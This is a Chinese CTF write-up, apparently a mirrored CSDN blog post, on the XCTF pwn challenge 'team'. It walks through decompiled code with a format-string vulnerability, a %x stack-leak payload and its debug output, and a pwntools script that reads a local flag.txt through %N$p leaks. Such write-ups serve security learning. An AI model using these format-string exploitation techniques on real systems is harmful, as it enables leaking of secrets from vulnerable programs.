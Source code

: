 <!--yml
category: 未分类
date: 2022-04-26 14:50:57
-->

# team [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列28（网站配置错误，需自行配置本地环境测试）_3riC5r的博客-CSDN博客_攻防世界创建动态环境失败

> 来源：[http://blog.csdn.net/fastergohome/article/details/103834454](http://blog.csdn.net/fastergohome/article/details/103834454)

请注意：本题在攻防世界网站配置错误，请自行配置本地环境测试

最近攻防世界的题目pwn高手进阶区全部打乱了，所以现在我的题目列表是下面这样的了，搞的我的尴尬症都犯了😄

![](img/20e97091453d54e1c948b6779b69141e.png)准备看看能不能把一些题目解决一下，不过其中有些题目的环境是配置错误的，我已经联系网站的工作人员，准备进QQ群。

现在我就先把team这道题目给大家说明一下。这道题目其实并不是太复杂，但是网站的工作人员没有搞清楚这道题目的出题方法，所以造成了一些问题。

先看看题目：

![](img/f06ec722399742d98791fccaa2b87567.png)

 现在这道题目改成了2星的难度，其实也确实就是2星的难度。

照例检查一下保护机制

```
[*] '/ctf/work/python/team/4f785d9988ce43c2b6e12ae2c49040aa'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开启了NX和Canary，继续看下代码

main函数：

```
int __cdecl main()
{
  char *pszTeamname; // ST18_4
  char *pszFlag; // ST1C_4

  pszTeamname = (char *)malloc(200u);
  pszFlag = (char *)malloc(100u);
  printf("Enter teamname: ");
  fflush(stdout);
  __isoc99_scanf("%200s", pszTeamname);
  printf("Enter flag: ");
  fflush(stdout);
  __isoc99_scanf("%100s", pszFlag);
  sleep(2u);
  sub_80486AD(pszTeamname, pszFlag);
  free(pszTeamname);
  free(pszFlag);
  return 0;
}
```

 子函数：

```
signed int __cdecl sub_80486AD(const char *pszTeamname, const char *pszFlag)
{
  FILE *stream; // [esp+24h] [ebp-74h]
  char s; // [esp+28h] [ebp-70h]
  unsigned int v5; // [esp+8Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  stream = fopen("flag.txt", "r");
  if ( !stream )
    return 1;
  fgets(&s, 100, stream);
  printf(pszTeamname);
  if ( !strcmp(&s, pszFlag) )
    puts(" : correct flag!");
  else
    puts(" : incorrect flag. Try again.");
  fclose(stream);
  return 0;
}
```

可以非常清楚的看到有个格式化字符串漏洞

```
printf(pszTeamname);
```

但是这个漏洞和普通的格式化字符串漏洞不一样，因为它打印的是malloc分配的地址，而不是栈上的地址。

所以我们按照之前的payload

AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.

这样的形式是打印不出来41414141的，因为AAAA保存在heap里面，而打印出来的是栈里面的内容。

> 划重点

 这个题目出问题的原因在于：服务器上没有flag.txt文件

 而本题的出题者的想法：不是要拿到服务器的shell，而是直接把flag.txt文件的flag读取，打印出来。

* * *

我在本地创建了一个flag.txt文件

```
root@mypwn:/ctf/work/python/team# ls -l
total 2280
-rwxr-xr-x 1 root root    5576 Jan  3 17:31 4f785d9988ce43c2b6e12ae2c49040aa
-rw-r--r-- 1 root root  156577 Jan  4 08:20 4f785d9988ce43c2b6e12ae2c49040aa.idb
-rw------- 1 root root 2424832 Jan  4 07:46 core
-rw-r--r-- 1 root root      16 Jan  4 01:39 flag.txt
-rw-r--r-- 1 root root    1107 Jan  4 07:56 team.py
```

看下本地的flag.txt的内容

```
root@mypwn:/ctf/work/python/team# cat flag.txt 
bbbcccdddeeefff
root@mypwn:/ctf/work/python/team# 
```

然后我们按照之前的payload

AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.

看下输出的内容：

```
[DEBUG] Received 0x1cc bytes:
    'AAAA64.82206c0.c.f7715e89.1.821f230.821f160.0.82206c0.63626262.64646363.65656564.a666666.f7707400.1.1.7fffffff.ff8d8b94.f75e10a5.ff8d8b94.ff8d8b94.ff8d8bb8.f7585c2d.f76fa5c0.f752e0e8.0.ffffffb4.f771af49.2.0.ea6a7d00.ff8d8be8.f7720e20.f76fb89c.ea6a7d00.f76fa000.0.ff8d8be8.804880c.821f160.821f230.ff8d8c8c.f75526a5.f771b9b0.0.821f160.821f230.f76fa000.f76fa000.0.f753ae81.1.ff8d8c84.ff8d8c8c.ff8d8c14.1.0.f76fa000.f771b75a.f7733000\. : incorrect flag. Try again.\n'
```

注意到上面第十个打印项开始

```
63626262.64646363.65656564.a666666
```

如果把他们从ascii码翻译成字符其实就是flag.txt的内容：bbbcccdddeeefff

> 踩坑

按照普通的格式化字符串漏洞应该是下面这样的步骤：

1.  写free的got表为main函数
2.  泄漏libc地址
3.  写free的got表为system函数
4.  写pszFlag为'/bin/sh'

但是不可以！！呵呵

* * *

我顺便做了一个python的脚本，当然只能在本地测试

```
#coding:utf8
#!python

from pwn import *

context.log_level = 'debug'
process_name = '4f785d9988ce43c2b6e12ae2c49040aa'

def get_flag(num):
	p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
	# p = remote('111.198.29.45', 39479)
	# elf = ELF(process_name)

	# payload = 'A'*4+'%x.'*60
	# param_num = 10 + (0x70-0xc)/4
	param_num = num
	payload = '%'+str(param_num)+'$p'
	p.sendlineafter('Enter teamname: ', payload)
	p.sendlineafter('Enter flag: ', 'B'*3)
	data = p.recvuntil(' :')[2:-2]

	data = data.rjust(8, '0').decode('hex')[::-1]
	log.info("data => %s", data)
	p.close()
	return data

flag = ''
try:
	for x in xrange(10,30):
		flag += get_flag(x)
		if ('\n' in flag) or ('\x00' in flag):
			break;
except Exception as e:
	log.info("flag => %s", flag)

print(flag) 
```